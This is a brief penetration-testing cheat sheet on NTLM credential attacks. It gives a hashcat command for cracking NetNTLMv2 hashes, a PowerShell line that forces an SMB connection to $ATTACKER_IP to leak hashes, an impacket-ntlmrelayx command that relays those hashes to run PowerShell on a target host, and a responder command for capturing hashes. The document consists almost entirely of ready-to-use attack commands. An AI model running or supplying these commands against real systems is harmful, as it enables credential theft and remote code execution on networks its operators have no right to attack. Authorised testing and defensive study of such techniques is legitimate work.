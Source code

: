 #hashcat #hash #hashes #hash-ids

HashCat example hash modes:
---
https://hashcat.net/wiki/doku.php?id=example_hashes

NetNTLMv2 hash brute forcing:
---
#ntlm #ntlm2 #responder
```shell
hashcat -m 5600 hashes /usr/share/wordlists/rockyou.txt --force
```

force SMB connection to attacker and relay NTLM hashes:
```powershell
dir \\$ATTACKER_IP\test
```

```bash
impacket-ntlmrelayx --no-http-server -smb2support -t $TARGET_IP -c "powershell ..."
```
or just log the hash for reusing it:
```bash
sudo responder -I tun0
```